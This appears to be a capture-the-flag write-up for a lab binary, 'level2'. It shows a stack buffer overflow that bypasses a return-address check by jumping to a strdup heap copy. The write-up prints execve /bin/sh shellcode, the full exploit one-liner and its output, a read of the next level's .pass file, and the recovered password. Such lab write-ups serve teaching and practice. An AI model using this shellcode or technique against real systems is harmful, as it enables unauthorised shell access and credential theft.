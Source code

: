 # level2

We found an exec again. SCP into local to run ghidra.
there is a fn main that calls fn p().

There is a no call to /bin/sh, so we will have to insert some shellcode

    shellcode:
    http://shell-storm.org/shellcode/files/shellcode-575.html

    "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

We found a call to gets() again, but this time it is protected by a restriction on our return address, it can't point to any address in the stack since bytes in the stack are in range 0xbf000000 - 0xbffffff, so we cannot overflow there. 

After a lot of searching we realise we can inject gets() into the strdup function along with shellcode to access /bin/sh. 

We add the 76 bytes with shellcode to char local_50[76] + 4 bytes for the return, then add a valid return address. 

21 - bytes shell code
59 - bytes padding
4 - bytes return address (to gets())

    $ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2
    j
    X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
    cat /home/user/level3/.pass
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02